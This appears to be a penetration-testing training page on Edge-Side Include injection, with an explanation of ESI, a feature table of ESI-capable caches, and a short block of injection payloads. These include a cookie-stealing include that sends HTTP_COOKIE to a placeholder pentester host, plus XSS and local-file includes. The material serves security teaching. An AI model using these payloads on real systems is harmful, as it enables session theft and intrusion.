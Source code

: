 ## Edge-Side Includes (ESI)

Edge Side Includes (`ESI`) is an XML-based markup language used to tackle performance issues by enabling heavy caching of Web content, which would be otherwise unstorable through traditional caching protocols. Edge Side Includes (ESI) allow for dynamic web content assembly at the edge of the network (Content Delivery Network, User's Browser, or Reverse Proxy) by instructing the page processor what needs to be done to complete page assembly through ESI element tags (XML tags).

ESI tags are used to instruct an HTTP surrogate (reverse-proxy, caching server, etc.) to fetch additional information regarding a web page with an already cached template. This information may come from another server before rendering the web page to the end-user. ESI enable fully cached web pages to include dynamic content.

Edge-Side Include Injection occurs when an attacker manages to reflect malicious ESI tags in the HTTP Response. The root cause of this vulnerability is that HTTP surrogates cannot validate the ESI tag origin. They will gladly parse and evaluate legitimate ESI tags by the upstream server and malicious ESI tags by an attacker.

Although we can identify the use of ESI by inspecting response headers in search for `Surrogate-Control: content="ESI/1.0"`, we usually need to use a blind attack approach to detect if ESI is in use or not. Specifically, we can introduce ESI tags to HTTP requests to see if any intermediary proxy is parsing the request and if ESI Injection is possible. Some useful ESI tags are:

#### ESI Tags

Code: html

```html
// Basic detection <esi: include src=http://<PENTESTER IP>> // XSS Exploitation Example <esi: include src=http://<PENTESTER IP>/<XSSPAYLOAD.html>> // Cookie Stealer (bypass httpOnly flag) <esi: include src=http://<PENTESTER IP>/?cookie_stealer.php?=$(HTTP_COOKIE)> // Introduce private local files (Not LFI per se) <esi:include src="supersecret.txt"> // Valid for Akamai, sends debug information in the response <esi:debug/>
```

In some cases, we can achieve remote code execution when the application processing ESI directives supports XSLT, a dynamic language used to transform XML files. In that case, we can pass `dca=xslt` to the payload. The XML file selected will be processed with the possibility of performing XML External Entity Injection Attacks (XXE) with some limitations.

[GoSecure](https://www.gosecure.net/blog/2018/04/03/beyond-xss-edge-side-include-injection/) has created a table to help us understand possible attacks that we can try against different ESI-capable software, depending on the functionality supported. Let us provide some explanations regarding the column names of the below table first:

-   Includes: Supports the `<esi:includes>` directive
-   Vars: Supports the `<esi:vars>` directive. Useful for bypassing XSS Filters
-   Cookie: Document cookies are accessible to the ESI engine
-   Upstream Headers Required: Surrogate applications will not process ESI statements unless the upstream application provides the headers
-   Host Allowlist: In this case, ESI includes are only possible from allowed server hosts, making SSRF, for example, only possible against those hosts

| **Software** | **Includes** | **Vars** | **Cookies** | **Upstream Headers Required** | **Host Whitelist** |
| --- | --- | --- | --- | --- | --- |
| Squid3 | Yes | Yes | Yes | Yes | No |
| Varnish Cache | Yes | No | No | Yes | Yes |
| Fastly | Yes | No | No | No | Yes |
| Akamai ESI Test Server (ETS) | Yes | Yes | Yes | No | No |
| NodeJS esi | Yes | Yes | Yes | No | No |
| NodeJS nodesi | Yes | No | No | No | Optional |
